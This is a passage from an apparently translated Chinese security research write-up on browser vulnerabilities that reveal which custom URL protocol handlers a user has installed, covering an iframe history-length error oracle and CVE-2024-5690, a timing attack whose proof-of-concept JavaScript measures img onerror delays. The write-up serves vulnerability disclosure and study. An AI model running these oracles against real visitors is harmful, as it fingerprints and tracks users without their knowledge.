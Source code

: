   
然后，将打开两个新的 iframe，如下所示。这里，我们还采用了一种技术，利用沙箱属性，不显示提示用户确认的对话框。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacX4wvicRQ7HZUf9vuHU5wIbgYmWCL5nr1cTauYlfcIUh7L80iahmJ8k87GSIEicibk0U2HLwx5a8n79g/640?wx_fmt=png&from=appmsg "")  
  
ms-settings  
如果像方案中那样设置处理程序，则显示空白页面，  
satoki如果没有像方案中那样设置处理程序，则显示页面加载错误。这类似于window.open。现在让我们访问每个 iframe 的 contentWindow.history.length。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacX4wvicRQ7HZUf9vuHU5wIb9WAs6BO7qsTFVF5jNlYKyNtNNEv8KVgUaWAqicEn9gsibdral96tiayZw/640?wx_fmt=png&from=appmsg "")  
  
satoki访问方案中的 contentWindow.history.length 被拒绝并导致错误。  
about:blank通过在创建 iframe 后指定 src 会发生此行为。通过捕获此错误，您可以将其用作预言机。  
  
攻击者以指定的时间间隔在 iframe 中打开自定义方案，并验证访问 contentWindow.history.length 是否会导致错误。结果允许攻击者确定是否配置了 URL 协议处理程序。而且，它是比 window.open 更强大的方法，因为它允许在至少允许弹出一次的情况下连续打开 iframe。  
  
**使用 oracle 计算 img 标签 onerror 触发时间的方法 (CVE-2024-5690)**  
  
这是作者发现的第二个漏洞。利用此漏洞，可以通过使用从生成 img 标签到触发读取错误事件 (onerror) 的时间作为预言机来获取 URL 协议处理程序设置是否存在。目标用户无需执行任何操作。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tacX4wvicRQ7HZUf9vuHU5wIb9GcyEsd92NIcpagn0Q4icOv4cia28r2JQq2WWcETBq2HhYcb5hA84N2Q/640?wx_fmt=png&from=appmsg "")  
  
**CVE-2024-5690：外部协议处理程序因定时攻击而泄露**  
- https://www.mozilla.org/en-US/security/advisories/mfsa2024-25/#CVE-2024-5690  
  
在进行漏洞研究时，我们验证了在 img 标签中设置自定义方案时事件的触发。可以在 img 标签中设置事件，如下所示。  
  
```
<img src="ms-settings://satoki" onerror="alert('ms-settings')">
<img src="satoki://satoki" onerror="alert('satoki')">
```  
  
  
幸运的是，我们发现无论是否设置处理程序都会触发该事件。因此，我决定测量事件触发所需的时间。打开开发人员工具控制台并创建以下 JavaScript 函数。  
  
```
async function measureLoadTime(ph, numberOfTrials) {
    let totalTime = 0;
    for (let i = 0; i < numberOfTrials; i++) {
        const startTime = performance.now();
        await new Promise(resolve => {
            const img = document.createElement("img");
            document.body.appendChild(img);
            img.onload = img.onerror = function() {
                const endTime = performance.now();
                totalTime += endTime - startTime;
                img.parentNode.removeChild(img);
                resolve();
            };
            img.src = ph;
        });
    }
    return totalTime;
}
```  
  